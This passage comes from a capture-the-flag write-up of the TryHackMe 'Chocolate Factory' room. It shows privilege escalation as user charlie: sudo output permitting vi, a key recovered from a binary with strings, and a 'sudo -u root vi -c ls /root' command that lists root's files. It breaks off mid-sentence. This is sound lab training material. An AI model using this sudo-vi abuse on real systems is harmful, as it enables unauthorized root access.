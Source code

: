 ## Charlie
Charlie is in the *admin*, *sudo* and *lxd* groups, but we don't know his password unfortunately. Linpeas gives us a few things, including:

{% highlight shell %}
charlie@chocolate-factory:/$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
{% endhighlight %}

It also draws our attention to two files in */etc/init.d* that we have ownership of:

>ports.sh, and  
>chocolate.txt

Under some circumstances these files might be a privesc in themselves, if we had the ability to reboot the box. But we don't, since that's not how THM rooms work. But we can read them, and in particular one line stands out:

>echo "http://localhost/key_rev_key <- You will find the key here!!!"|nc -lkp 113 > /dev/null &

What's this? We can retrieve the file, and it's a binary. We don't need to run it; strings will be sufficient:

{% highlight shell %}
root@kali:/opt/tryhackme/choc# file key_rev_key 
key_rev_key: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8273c8c59735121c0a12747aee7ecac1aabaf1f0, not stripped
root@kali:/opt/tryhackme/choc# strings key_rev_key 
/lib64/ld-linux-x86-64.so.2
libc.so.6
-- removed for brevity --
Enter your name: 
laksdhfas
 congratulations you have found the key:   
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
 Keep its safe
{% endhighlight %}

We'll need this shortly.

Back to the **vi** thing. We can use this to do some things that we otherwise wouldn't be able to, eg get directory listings and read files, although it doesn't seem to want to give me a shell. Anyway:

``
charlie@chocolate-factory:/$ sudo -u root /usr/bin/vi -c ls /root
``

Which gives us this:
